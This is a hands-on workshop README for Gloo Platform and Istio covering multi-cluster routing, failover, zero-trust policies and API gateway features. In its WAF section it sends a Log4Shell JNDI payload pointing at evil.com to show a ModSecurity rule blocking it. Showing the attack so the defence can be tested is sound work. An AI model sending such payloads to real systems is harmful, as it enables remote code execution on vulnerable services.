

# <center>Gloo Platform Online Boutique Demo Workshop</center>

## Table of Contents

* [Introduction](#introduction)
* [Lab 1 - Deploy Kubernetes clusters](#Lab-1)
* [Lab 2 - Deploy Gloo Platform](#Lab-2)
* [Lab 3 - Deploy Istio](#Lab-3)
* [Lab 4 - Deploy Online Boutique Sample Application](#Lab-4)
* [Lab 5 - Configure Gloo Platform Workspaces](#Lab-5)
* [Lab 6 - Expose the Online Boutique Frontend](#Lab-6)
* [Lab 7 - Lock it down! Zero Trust Networking](#Lab-7)
* [Lab 8 - Multi-cluster Routing](#Lab-8)
* [Lab 9 - Multi-cluster Failover](#Lab-9)
* [Lab 10 - Gloo Gateway](#Lab-10)

## Introduction <a name="introduction"></a>

[Gloo Platform](https://www.solo.io/products/gloo-mesh/) simplifies the adoption of a service mesh across single or many clusters. It is Enterprise [Istio](https://istio.io) with production support, N-4 support, CVE patching, FIPS builds, and a multi-cluster operational management plane to simplify running a service mesh across multiple clusters or a hybrid deployment. 

Gloo Platform also has features around multi-tenancy, global failover and routing, observability, and east-west rate limiting and policy enforcement (through AuthZ/AuthN plugins). 


###  Dashboard & Observability

When you install Gloo Platform, you get the Gloo Platform Dashboard which allows you to review the health and configuration of Gloo Platform custom resources, including registered clusters, workspaces, networking, policies, and more.


Gloo Platform uses agents to consolidate all the metrics and access logs from the different clusters. A Service Graph can then be used to monitor all the communication happening globally.


### Want to learn more about Gloo Platform?

You can find more information about Gloo Platform in the official documentation:

[https://docs.solo.io/gloo-mesh/latest/](https://docs.solo.io/gloo-mesh/latest/)

## Begin

To get started with this workshop, clone this repo.

```sh
git clone https://github.com/solo-io/solo-cop.git
cd solo-cop/workshops/gloo-mesh-demo
```

Set these environment variables which will be used throughout the workshop.

```sh
# Used to enable Gloo Platform (please ask for a trail license key)
export GLOO_MESH_LICENSE_KEY=<licence_key>
export GLOO_PLATFORM_VERSION=v2.3.1
```

## Lab 1 - Configure/Deploy the Kubernetes clusters <a name="Lab-1"></a>

You will need to create three Kubernetes Clusters. Two will be used as your workload clusters and the last one will be used as the managment plane.


This workshop can run on many different Kubernetes distributions such as EKS, GKE, OpenShift, RKE, etc or you can 
* [create local k3d clusters](infra/k3d/README.md)
* [create eks clusters using eksctl](infra/eks/README.md).

Set these environment variables to represent your three clusters.
```sh
export MGMT=mgmt
export CLUSTER1=cluster1
export CLUSTER2=cluster2
```

Rename the kubectl config contexts of each of your three clusters to `mgmt`, `cluster1` and `cluster2` respectively.

```sh
# UPDATE <context-to-rename> BEFORE APPLYING
kubectl config rename-context <context-to-rename> ${MGMT} 
kubectl config rename-context <context-to-rename> ${CLUSTER1} 
kubectl config rename-context <context-to-rename> ${CLUSTER2}
``` 

## Lab 2 - Deploy Gloo Platform <a name="Lab-2"></a>



Gloo Platform provides a management plane to interact with the clusters and services in your service mesh. The management plane exposes port `9900` via gRPC to connect to the Gloo Platform agents that run in your remote workload clusters. With the management plane, you can easily set up multi-tenancy for your service mesh with workspaces, view the Gloo Platform resources that you configured by using the Gloo Platform UI, and collect service mesh metrics to verify the health of your service mesh and find bottlenecks.

The `meshctl` command line utility provides convenient functions to quickly set up Gloo Platform, register workload clusters, run sanity checks, and debug issues. Let's start by installing this utility.

1. Download `meshctl` command line tool and add it to your path

```sh
curl -sL https://run.solo.io/meshctl/install | GLOO_MESH_VERSION=${GLOO_MESH_VERSION} sh -

export PATH=$HOME/.gloo-mesh/bin:$PATH
```

In this lab, you install Gloo Platform in the management plane by using the `meshctl` command line utility. But you can also install it via Helm. Everything that is provided by Gloo Platform is compatible with a GitOps approach.


2. Run the following commands to deploy the Gloo Platform management plane:

```sh
meshctl install \
  --kubecontext $MGMT \
  --license $GLOO_GATEWAY_LICENSE_KEY \
  --set common.cluster=$MGMT \
  --profiles mgmt-server
```

The management server exposes a grpc endpoint (`kubectl get svc gloo-mesh-mgmt-server -n gloo-mesh --context $MGMT`) which the agents in the workload clusters will connect to.

Use `meshctl` to install the Gloo Platform agent in the service mesh clusters and register them with the Gloo Platform management plane. When a cluster is registered with the management plane, the agent is configured with the token and certificate to securely connect to the Gloo Platform management plane via mutual TLS (mTLS).

3. Finally, you need to register the two other clusters by deploying the gloo mesh agents. You will need to provide the telemetry gateway address for metrics to also be connected

```sh
GLOO_TELEMETRY_GATEWAY=$(kubectl get svc -n gloo-mesh gloo-telemetry-gateway --context $MGMT -o jsonpath='{.status.loadBalancer.ingress[0].*}'):$(kubectl --context ${MGMT} -n gloo-mesh get svc gloo-telemetry-gateway -o jsonpath='{.spec.ports[?(@.port==4317)].port}')

meshctl cluster register \
  --kubecontext=$MGMT \
  --remote-context=$CLUSTER1 \
  --telemetry-server-address $GLOO_TELEMETRY_GATEWAY \
  $CLUSTER1

meshctl cluster register \
  --kubecontext=$MGMT \
  --remote-context=$CLUSTER2 \
  --telemetry-server-address $GLOO_TELEMETRY_GATEWAY \
  $CLUSTER2
```

**Problems?** meshctl tries to automatically detect the management server endpoint, but sometimes this can fail. If that happens, it can be supplied manually. Follow the steps [here](problems-manual-registration.md) if you run into this.

4. Now verify that the installation is healthy
```sh
meshctl check --kubecontext $MGMT
```

You should see output similar to the following:
```sh
🟢 License status

 INFO  gloo-gateway enterprise license expiration is.....
 INFO  Valid GraphQL license module found

🟢 CRD version check


🟢 Gloo Platform deployment status

Namespace | Name                   | Ready | Status 
gloo-mesh | gloo-mesh-redis        | 1/1   | Healthy
gloo-mesh | gloo-mesh-mgmt-server  | 1/1   | Healthy
gloo-mesh | gloo-telemetry-gateway | 1/1   | Healthy
gloo-mesh | prometheus-server      | 1/1   | Healthy
gloo-mesh | gloo-mesh-ui           | 1/1   | Healthy

🟢 Mgmt server connectivity to workload agents

Cluster  | Registered | Connected Pod                                  
cluster1 | true       | gloo-mesh/gloo-mesh-mgmt-server-84bcc99f5-vbdjl
cluster2 | true       | gloo-mesh/gloo-mesh-mgmt-server-84bcc99f5-vbdjl

```

5. In addition, you can verify proper installation by opening the Gloo Platform Dashboard. It's best to run this command in a separate terminal.

```sh
meshctl dashboard --kubecontext $MGMT
```

## Lab 3 - Deploy Istio on the Workload Clusters<a name="Lab-3"></a>

With a Gloo Platform-managed installation, you no longer need to use istioctl to individually install Istio in each workload cluster. Instead, you can supply IstioOperator configurations in a IstioLifecycleManager resource to your management cluster. Gloo Platform translates this resource into Istio control planes, gateways, and related resources in your registered workload clusters for you.

1. Install Istio to each of the remote clusters using Gloo Platform IstioLifecycleManager and GatewayLifecycleManager.

```sh
kubectl apply -f install/istio/managed-istio.yaml --context $MGMT
```

2. Verify in the Gloo Platform Dashboard that the deployed Istio information was discovered.


3. Apply a RootTustPolicy to tell the management plane to handle setting up a [shared trust](https://docs.solo.io/gloo-mesh-enterprise/latest/setup/prod/certs/federate-identity/) between the two workload clusters. Gloo Platform will create a common root certificate and issues an intermediate signing certificate authority (CA) to each of the remote clusters that contain a common root.

```yaml
cat << EOF | kubectl --context ${MGMT} apply -f -
apiVersion: admin.gloo.solo.io/v2
kind: RootTrustPolicy
metadata:
  name: root-trust-policy
  namespace: gloo-mesh
spec:
  config:
    mgmtServerCa:
      generated: {}
    autoRestartPods: true
EOF
```

Gloo Platform can also integrate with various vendor technologies, including Vault, AWSCA, and more to ensure the CA meets your company's requirements.

## Lab 4 - Deploy Online Boutique Sample Application<a name="Lab-4"></a>


1. Deploy the Online Boutique backend microservices to `cluster1` in the `backend-apis` namespace.

```sh
kubectl create namespace backend-apis --context $CLUSTER1
kubectl label ns backend-apis istio-injection=enabled --context $CLUSTER1

helm install backend-apis --version "5.0.0" oci://us-central1-docker.pkg.dev/solo-test-236622/solo-demos/onlineboutique \
  --create-namespace \
  --kube-context $CLUSTER1 \
  --namespace backend-apis \
  -f install/online-boutique/backend-apis-values.yaml
```

2. Deploy the frontend microservice to the `web-ui` namespace in `cluster1`.

```sh
kubectl create namespace web-ui --context $CLUSTER1
kubectl label ns web-ui istio-injection=enabled --context $CLUSTER1

helm install backend-apis --version "5.0.0" oci://us-central1-docker.pkg.dev/solo-test-236622/solo-demos/onlineboutique \
  --create-namespace \
  --kube-context $CLUSTER1 \
  --namespace web-ui \
  -f install/online-boutique/web-ui-values.yaml
```

## Lab 5 - Configure Gloo Platform Workspaces <a name="Lab-5"></a>

In this lab, you'll learn about the Gloo Platform **Workspaces** feature. Workspaces bring multi-tenancy controls to Istio. With workspaces, you can explore how multiple personas can work inside the service mesh independently without conflicting with each others configuration.

Imagine that you have the following teams. Each team represents a "tenant" in Gloo Platform.
- The Ops team, who is responsible for the platform and ingress traffic.
- The Web team, who is responsible for the frontend web application or client-facing services.
- The Backend API team, who is responsible for backend services that power the frontend app.

All the workspaces are created by using the Gloo Platform management plane.


1. Create config namespaces in the `mgmt` cluster for each workspace.

```sh
kubectl create namespace ops-team --context $MGMT
kubectl create namespace web-team --context $MGMT
kubectl create namespace backend-apis-team --context $MGMT
```

2. Apply the workspaces to the Gloo Platform Management Plane root config namespace `gloo-mesh`.

```yaml
kubectl --context ${MGMT} apply -f - <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: Workspace
metadata:
  name: ops-team
  namespace: gloo-mesh
spec:
  workloadClusters:
  - name: 'mgmt'
    namespaces:
    - name: ops-team
  - name: '*'
    namespaces:
    - name: istio-ingress
    - name: istio-eastwest
    - name: gloo-mesh-addons
---
apiVersion: admin.gloo.solo.io/v2
kind: Workspace
metadata:
  name: web-team
  namespace: gloo-mesh
spec:
  workloadClusters:
  - name: 'mgmt'
    namespaces:
    - name: web-team
  - name: '*'
    namespaces:
    - name: web-ui
---
apiVersion: admin.gloo.solo.io/v2
kind: Workspace
metadata:
  name: backend-apis-team
  namespace: gloo-mesh
spec:
  workloadClusters:
  - name: 'mgmt'
    namespaces:
    - name: backend-apis-team
  - name: '*'
    namespaces:
    - name: backend-apis
EOF
```

3. Apply the settings for each workspace. These `WorkspaceSettings` objects are used to tune each indiviual workspace as well as import/export resources from other workspaces. 

```sh
kubectl apply --context $MGMT -f tracks/02-workspaces/workspace-settings.yaml
```

The `WorkspaceSettings` custom resource lets each team define the services and gateways that they want other workspaces from other teams to be able to access. This way, you can control the discovery of services in your service mesh and enable each team to access only what they need.

Each workspace can have only one WorkspaceSettings resource.

## Lab 6 - Expose the Online Boutique <a name="Lab-6"></a>


You use a virtual gateway to configure the Istio ingress gateway consistently across many clusters. Note the following settings.
  * The virtual gateway selects the Istio ingress gateway workload by label, as well as name and namespace.
  * The Ops team delegates incoming traffic to the Web team by adding an allowed route table to the Web team's workspace. This delegation works because you set up the Ops and Web workspaces to import and export correctly.


1. Apply the VirtualGateway to define the listeners and hosts for `cluster1` ingress gateway.

```yaml
kubectl --context ${MGMT} apply -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: VirtualGateway
metadata:
  name: north-south-gw
  namespace: ops-team
spec:
  workloads:
    - selector:
        labels:
          istio: ingressgateway
        cluster: cluster1
        namespace: istio-ingress
  listeners: 
    - http: {}
      port:
        number: 80
      allowedRouteTables:
        - host: '*'
          selector:
            workspace: web-team
EOF
```

2. Apply the RouteTable for the web team to define where traffic for the gateway should go.

```yaml
kubectl --context ${MGMT} apply -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: frontend
  namespace: web-team
spec:
  hosts:
    - '*'
  virtualGateways:
    - name: north-south-gw
      namespace: ops-team
      cluster: mgmt
  workloadSelectors: []
  http:
    - name: frontend
      forwardTo:
        destinations:
          - ref:
              name: frontend
              namespace: web-ui
              cluster: cluster1
            port:
              number: 80
EOF
```

Note the following settings.
  * The route table selects the virtual gateway in the Ops team workspace.
  * For simplicity, the route table doesn't specify a path matcher. Instead, it uses a wildcard to match any host.
  * The `frontend` route is set up to forward traffic from any host on the Istio ingress gateway to the `frontend` destination that listens on port 80.

3. Open the Online Boutique in your browser

```sh
export GLOO_GATEWAY=$(kubectl --context ${CLUSTER1} -n istio-ingress get svc istio-ingressgateway -o jsonpath='{.status.loadBalancer.ingress[0].*}'):80

echo "Online Boutique available at http://$GLOO_GATEWAY"
```

## Lab 7 - Zero Trust Networking <a name="Lab-7"></a>

The backend APIs team employs a "Zero Trust" networking approach by enforcing service isolation. With service isolation, all inbound traffic to their applications is denied by default, even within their own namespace.

1. Add a default deny-all policy to the backend-apis-team workspace

```yaml
cat << EOF | kubectl --context ${MGMT} apply -f -
apiVersion: security.policy.gloo.solo.io/v2
kind: AccessPolicy
metadata:
  name: allow-nothing
  namespace: backend-apis-team
spec:
  applyToWorkloads:
  - {}
  config:
    authn:
      tlsMode: STRICT
    authz: {}
EOF
```

2. Refresh the Online Boutique webpage. You should see an error with message "RBAC: access denied"

3. Add AccessPolicies to explicitly allow traffic between the microservices in the backend-apis namespace and also from web-team workspace to the backend-apis-team workspace. As you can see, these policies can be very flexible.

```yaml
kubectl --context ${MGMT} apply -f - <<EOF
apiVersion: security.policy.gloo.solo.io/v2
kind: AccessPolicy
metadata:
  name: in-namespace-access
  namespace: backend-apis-team
spec:
  applyToDestinations:
  - selector:
      workspace: backend-apis-team
  config:
    authz:
      allowedClients:
      - serviceAccountSelector:
          namespace: backend-apis
---
apiVersion: security.policy.gloo.solo.io/v2
kind: AccessPolicy
metadata:
  name: frontend-api-access
  namespace: backend-apis-team
spec:
  applyToDestinations:
  - selector:
      workspace: backend-apis-team
  config:
    authz:
      allowedClients:
      - serviceAccountSelector:
          workspace: web-team
EOF
```

4. Refresh the Online Boutique webpage. You should be able to view it again. 

5. Next, click on an item and click Add to Cart. You should see this error message:


This is because checkout microservice is not deployed yet! See `kubectl get deployments -n backend-apis --context $CLUSTER1`

## Lab 8 - Multi Cluster Routing <a name="Lab-8"></a>


Currently the `Checkout` feature is missing from the Online Boutique app. The backend APIs team has finished the feature and plans to deploy it to `cluster2`. Normally, this setup would cause issues because the `frontend` application, which depends on this feature, is deployed to `cluster1`.

Gloo Platform has the ability to create globally addressable, multi-cluster services by using a `VirtualDestination` configuration. The `VirtualDestination` allows the user to create a unique hostname that allows the selected services to be reachable from anywhere Gloo Platform is deployed. Because users can select their services with labels, VirtualDestinations are dynamic, adding and removing services as they come and go.


1.  Deploy the checkout feature to `cluster2`

```sh
kubectl create namespace backend-apis --context $CLUSTER2
kubectl label ns backend-apis istio-injection=enabled --context $CLUSTER2

helm install checkout-feature --version "5.0.0" oci://us-central1-docker.pkg.dev/solo-test-236622/solo-demos/onlineboutique \
  --create-namespace \
  --kube-context $CLUSTER2 \
  --namespace backend-apis \
  -f install/online-boutique/checkout-values.yaml
```

2. Create a VirtualDestination with hostname `checkout.backend-apis-team.solo-io.mesh` for the checkout service.

```yaml
kubectl --context ${MGMT} apply -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: VirtualDestination
metadata:
  name: checkout
  namespace: backend-apis-team
spec:
  hosts:
  - checkout.backend-apis-team.solo-io.mesh
  services:
  - labels:
      app: checkoutservice
  ports:
  - number: 80
    protocol: GRPC
    targetPort:
      name: grpc
EOF
```

3. Lets go ahead and create VirtualDestinations for the other backend api services as well.

```sh
kubectl apply --context $MGMT -f tracks/04-multi-cluster-routing/virtual-destinations.yaml
```

4. Wait a few seconds for the new frontend microservice and then try to add items to your cart again. You should see the checkout page served by cluster2:


5. Explore the Graph feature in the Gloo Platform Dashboard by running `meshctl dashboard --kubecontext mgmt` again.


## Lab 9 - Multicluster Failover <a name="Lab-9"></a>

In this lab, you learn how Gloo Platform orchestrates failover with simple and declarative policy definitions that you apply to routes defined in your `RouteTables`.


1. Deploy the frontend application to `cluster2` as well.

```sh
kubectl create namespace web-ui --context $CLUSTER2
kubectl label ns web-ui istio-injection=enabled --context $CLUSTER2

helm install ha-frontend --version "5.0.0" oci://us-central1-docker.pkg.dev/solo-test-236622/solo-demos/onlineboutique \
  --create-namespace \
  --kube-context $CLUSTER2 \
  --namespace web-ui \
  -f install/online-boutique/web-ui-cluster2-values.yaml
```

In order to see the full power of Gloo Platform failover policies, make sure that the frontend application is available on both clusters. To do so, create a `VirtualDestination` for frontend as well.

2. Create VirtualDestination for frontend application

```yaml
kubectl --context ${MGMT} apply -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: VirtualDestination
metadata:
  name: frontend
  namespace: web-team
spec:
  hosts:
  - frontend.web-ui-team.solo-io.mesh
  services:
  - labels:
      app: frontend
  ports:
  - number: 80
    protocol: HTTP
    targetPort:
      name: http
EOF
```

3. Update the RouteTable so the VirtualGateway will route to both frontend applications. This can be accomplished by simply routing to the frontend's VirtualDestination.

```yaml
kubectl --context ${MGMT} apply -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: frontend
  namespace: web-team
  labels:
    lab: failover
spec:
  hosts:
    - '*'
  virtualGateways:
    - name: north-south-gw
      namespace: ops-team
      cluster: mgmt
  workloadSelectors: []
  http:
    - name: frontend
      labels:
        virtual-destination: frontend
        oauth: "true"
      forwardTo:
        destinations:
          - ref:
              name: frontend
              namespace: web-team
            kind: VIRTUAL_DESTINATION
            port:
              number: 80
EOF
```

Review the following update to the `RouteTable` resource. You must configure the route table to use the virtual destination for multicluster routing. Otherwise, the route table tries to route requests only to apps that run in the same cluster. Note the following aspects about this route table.
   * The route table can match with any host, `*`, which includes the frontend host, `frontend.web-ui-team.solo-io.mesh`.
   * The route table selects the ingress gateway to use. This gateway is in a workspace that the route table's workspace exports to.
   * The `frontend` route is set up to forward to destinations of the kind `VIRTUAL_DESTINATION`. It selects the virtual destination that you created by name and namespace.

4. Test routing between frontend services by refreshing your Online Boutique webpage several times. You should see both cluster1 and cluster2.

* cluster1 header


* cluster2 header


* Alternatively you can test this using curl

```sh
for i in {1..6}; do curl -sSk http://$GLOO_GATEWAY | grep "Cluster Name:"; done
```

5. You can create a Gloo Platform `FailoverPolicy` custom resource to configure locality-based load balancing across your virtual destinations. Apply this policy now.

```yaml
kubectl --context ${MGMT} apply -f - <<EOF
apiVersion: resilience.policy.gloo.solo.io/v2
kind: FailoverPolicy
metadata:
  name: failover
  namespace: web-team
spec:
  applyToDestinations:
  - kind: VIRTUAL_DESTINATION
    selector:
      namespace: web-team
  config:
    # enable default locality based load balancing
    localityMappings: []
EOF
```
   * The policy applies to destinations of the kind `VIRTUAL_DESTINATION`. It selects the virtual destination that you created by label.
   * The policy configures locality mapping. Requests from the us-east-1 region are mapped to us-west-2, and vice versa. This way, if a request cannot be fulfilled by an app in that region first, it is sent to the next closest region.

6. The failover policy tells Gloo Platform _where_ to re-route failover traffic. But, you also need to tell Gloo Platform _when_. To do so, create an outlier detection policy. This policy sets up several conditions, such as retries and ejection percentages, for Gloo Platform to use before failing over traffic.

```yaml
kubectl --context ${MGMT} apply -f - <<EOF
apiVersion: resilience.policy.gloo.solo.io/v2
kind: OutlierDetectionPolicy
metadata:
  name: outlier-detection
  namespace: web-team
spec:
  applyToDestinations:
  - kind: VIRTUAL_DESTINATION
    selector:
      namespace: web-team
  config:
    consecutiveErrors: 2
    interval: 5s
    baseEjectionTime: 15s
    maxEjectionPercent: 100
EOF
```
  * The policy applies to destinations of the kind `VIRTUAL_DESTINATION`. It selects the virtual destination that you created by label.
   * `consecutiveErrors` and `interval`: The number and wait time in between attempts to retry the request before failing over.
   * `maxEjectionPercent`: The percentage of traffic to fail over.
   * `baseEjectionTime`: The timeout to use to try to route back to the local service, after Kubernetes detects the service is healthy again.

7. Purposefully break the frontend microservice on cluster1 so that it cannot respond to requests. This command tells the container to sleep.

```sh
kubectl --context $CLUSTER1 -n web-ui patch deploy frontend --patch '{"spec":{"template":{"spec":{"containers":[{"name":"server","command":["sleep","20h"],"readinessProbe":null,"livenessProbe":null}]}}}}'
```

8. Test failover to cluster2 frontend application by refreshing your Online Boutique webpage several times. You should always see cluster2.

9. Fix frontend in cluster1

```sh
kubectl --context $CLUSTER1 -n web-ui patch deploy frontend --patch '{"spec":{"template":{"spec":{"containers":[{"name":"server","command":[],"readinessProbe":null,"livenessProbe":null}]}}}}'
```

10. Wait a few seconds and test that the frontend in cluster1 is working again.

## Lab 10 - API Gateway <a name="Lab-10"></a>


Gloo Platform Gateway adds API gateway features directly into the Istio ingress gateway. This way, you don't need an external API gateway or extra hops in your cluster to manage features like OIDC, WAF, rate limiting, and more.

In this lab, you explore just a few of these features to see how powerful adding Gloo Platform Gateway to your service mesh is.

In order to use the various features of the Gloo Platform gateway you will need to deploy the `Gloo Platform Addons` package which has the components to use features such as `rate limiting` and `external authorization`.

1. Install the `gloo-mesh-addons` package in cluster1

```sh
kubectl --context $CLUSTER1 create namespace gloo-mesh-addons
kubectl --context $CLUSTER1 label namespace gloo-mesh-addons istio-injection=enabled

helm upgrade --install gloo-platform-addons gloo-platform/gloo-platform \
  --namespace gloo-mesh-addons \
  --kube-context=$CLUSTER1 \
  --set common.cluster=$CLUSTER1 \
  --set rateLimiter.enabled=true \
  --set extAuthService.enabled=true \
  --version $GLOO_PLATFORM_VERSION

kubectl apply -f tracks/06-api-gateway/gloo-mesh-addons-servers.yaml --context $MGMT
```

#### Web Application Firewall (WAF)

Gloo Platform Gateway utilizes OWASP ModSecurity to add WAF features into the ingress gateway. Not only can you enable the [OWASP Core Rule Set](https://owasp.org/www-project-modsecurity-core-rule-set/) easily, but also you can enable many other advanced features to protect your applications.

In this section of the lab, take a quick look at how to prevent the `log4j` exploit that was discovered in late 2021. For more details, you can review the [Gloo Edge blog](https://www.solo.io/blog/block-log4shell-attacks-with-gloo-edge/) that this implementation is based on.

1. Refer to following diagram from Swiss CERT to learn how the `log4j` attack works. Note that a JNDI lookup is inserted into a header field that is logged.


2. Confirm that a malicious JNDI request currently succeeds. Note the `200` success response. Later, you create a WAF policy to block such requests.

```sh
curl -ikI -X GET -H "User-Agent: \${jndi:ldap://evil.com/x}" http://$GLOO_GATEWAY
```

3. With the Gloo Platform WAF policy custom resource, you can create reusable policies for ModSecurity. Review the `log4j` WAF policy and the frontend route table. Note the following settings.

  * In the route table, the frontend route has the label `virtual-destination: frontend`. The WAF policy applies to routes with this same label.
  * In the WAF policy config, the default core rule set is disabled. Instead, a custom rule set is created for the `log4j` attack.

```yaml
kubectl --context ${MGMT} apply -f - <<'EOF'
apiVersion: security.policy.gloo.solo.io/v2
kind: WAFPolicy
metadata:
  name: log4jshell
  namespace: web-team
spec:
  applyToRoutes:
  - route:
      labels:
        virtual-destination: frontend ##### NOTE
  config:
    disableCoreRuleSet: true
    customInterventionMessage: 'Log4Shell malicious payload'
    customRuleSets:
    - ruleStr: |-
        SecRuleEngine On
        SecRequestBodyAccess On
        SecRule REQUEST_LINE|ARGS|ARGS_NAMES|REQUEST_COOKIES|REQUEST_COOKIES_NAMES|REQUEST_BODY|REQUEST_HEADERS|XML:/*|XML://@*  
          "@rx \${jndi:(?:ldaps?|iiop|dns|rmi)://" 
          "id:1000,phase:2,deny,status:403,log,msg:'Potential Remote Command Execution: Log4j CVE-2021-44228'"
EOF
```

4. Try the previous request again.

```sh
curl -ik -X GET -H "User-Agent: \${jndi:ldap://evil.com/x}" http://$GLOO_GATEWAY
```

Note that the request is now blocked with the custom intervention message from the WAF policy.

```sh
HTTP/2 403
content-length: 27
content-type: text/plain
date: Wed, 18 May 2022 21:20:34 GMT
server: istio-envoy

Log4Shell malicious payload
```

Your frontend app is no longer susceptible to `log4j` attacks, nice!

#### External Authorization (OIDC)

Another valuable feature of API gateways is integration into your IdP (Identity Provider). In this section of the lab, we see how Gloo Platform Gateway can be configured to redirect unauthenticated users via OIDC.  We will use Keycloak as our IdP, but you could use other OIDC-compliant providers in your production clusters.

1. In order for OIDC to work we need to enable HTTPS on our gateway. For this demo, we will create and upload a self-signed certificate which will be used in the gateway for TLS termination.

```sh
openssl req -x509 -nodes -days 365 -newkey rsa:2048 \
   -keyout tls.key -out tls.crt -subj "/CN=*"

kubectl --context ${CLUSTER1} -n istio-ingress create secret generic tls-secret \
--from-file=tls.key=tls.key \
--from-file=tls.crt=tls.crt
```

2. Adding HTTPS to our gateway is simple as updating the virtual gateway to use our ssl certificate
```yaml
kubectl --context ${MGMT} apply -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: VirtualGateway
metadata:
  name: north-south-gw
  namespace: ops-team
spec:
  workloads:
    - selector:
        labels:
          istio: ingressgateway
        cluster: cluster1
        namespace: istio-ingress
  listeners:
    - http: {}
      port:
        number: 80
      allowedRouteTables:
        - host: '*'
          selector:
            workspace: web-team
    - http: {}
      port:
        number: 443
      tls:
        mode: SIMPLE
        secretName: tls-secret # NOTE
      allowedRouteTables:
        - host: '*'
          selector:
            workspace: web-team
EOF
```

3. Test out the new HTTPS endpoint (you may need to allow insecure traffic in your browser. Chrome: Advanced -> Proceed)

```sh
export GLOO_GATEWAY_HTTPS=$(kubectl --context ${CLUSTER1} -n istio-ingress get svc istio-ingressgateway -o jsonpath='{.status.loadBalancer.ingress[0].*}'):443
echo "Secure Online Boutique URL: https://$GLOO_GATEWAY_HTTPS"
```

4. Finally, we need to deploy our OIDC server keycloak. We provided you with a script to deploy and configure keycloak for our workshop. 

* Deploy and configure Keycloak

```sh
./install/keycloak/setup.sh
```

Get the keycloak URL and Client ID.

```sh
export KEYCLOAK_URL=http://$(kubectl -n keycloak --context $CLUSTER1 get service keycloak -o jsonpath='{.status.loadBalancer.ingress[0].*}'):9000/auth
export KEYCLOAK_CLIENTID=$(kubectl get configmap -n gloo-mesh --context $CLUSTER1 keycloak-info -o json | jq -r '.data."client-id"')

echo "Keycloak available at: $KEYCLOAK_URL"
echo "Keycloak OIDC ClientID: $KEYCLOAK_CLIENTID"
```

The `ExtAuthPolicy` defines the provider connectivity including any callback paths that we need to configure on our application.

* View the `ExtAuthPolicy` with environment variables replaced.

```sh
( echo "cat <<EOF" ; cat tracks/06-api-gateway/ext-auth-policy.yaml ; echo EOF ) | sh
```

* Apply the `ExtAuthPolicy`

```sh
( echo "cat <<EOF" ; cat tracks/06-api-gateway/ext-auth-policy.yaml ; echo EOF ) | sh | kubectl apply -n web-team --context $MGMT -f -
```

Now if you refresh the application, you should be redirected to Keycloak to login.

* Login using the following credentials

```sh
user: gloo-mesh
password: solo.io
```

And the application is now accessible.


* When you are finished, click the 'logout' button in the top right corner of the screen.


### 3. Add Rate Limiting

Secondly, we will look at rate limiting with Gloo Platform Gateway.  The rate limiting feature relies on a rate limit server that has been installed in our gloo-mesh-addons namespace.

For rate limiting, we need to create three CRs.  Let's start with the `RateLimitClientConfig`.

The `RateLimitClientConfig` defines the conditions in the request that will invoke rate limiting.  In this case, we will define a key coming from the header `X-Organization`.

The `RateLimitPolicy` pulls together the `RateLimitClientConfig`, `RateLimitServerConfig` and sets the label selector to use in the `RouteTable`.

* Apply the `RateLimitPolicy`

```yaml
kubectl --context ${MGMT} apply -f - <<EOF
apiVersion: trafficcontrol.policy.gloo.solo.io/v2
kind: RateLimitClientConfig
metadata:
  name: rate-limit-client-config
  namespace: web-team
spec:
  raw:
    rateLimits:
    - actions:
      - genericKey:
          descriptorValue: counter
---
apiVersion: admin.gloo.solo.io/v2
kind: RateLimitServerConfig
metadata:
  name: rate-limit-server-config
  namespace: ops-team
spec:
  destinationServers:
  - ref:
      cluster: cluster1
      name: rate-limiter
      namespace: gloo-mesh-addons
    port:
      name: grpc
  raw:
    descriptors:
    - key: generic_key
      rateLimit:
        requestsPerUnit: 3
        unit: MINUTE
      value: counter
---
apiVersion: trafficcontrol.policy.gloo.solo.io/v2
kind: RateLimitPolicy
metadata:
  name: rate-limit-policy
  namespace: web-team
spec:
  applyToDestinations:
  - selector:
      labels:
        app: frontend
  config:
    serverSettings:
      name: rate-limit-server-settings
      namespace: web-team
      cluster: mgmt
    ratelimitClientConfig:
      name: rate-limit-client-config
      namespace: web-team
      cluster: mgmt
    ratelimitServerConfig:
      name: rate-limit-server-config
      namespace: ops-team
      cluster: mgmt
    phase:
      preAuthz: { }
EOF
```

* Because its hard to validate rate limiting with authentication on we will disable external authentication for now.

```sh
kubectl --context ${MGMT} delete ExtAuthPolicy frontend -n web-team
```

* Test Rate Limiting

```sh
for i in {1..6}; do curl -iksS -X GET https://$GLOO_GATEWAY_HTTPS | tail -n 10; done
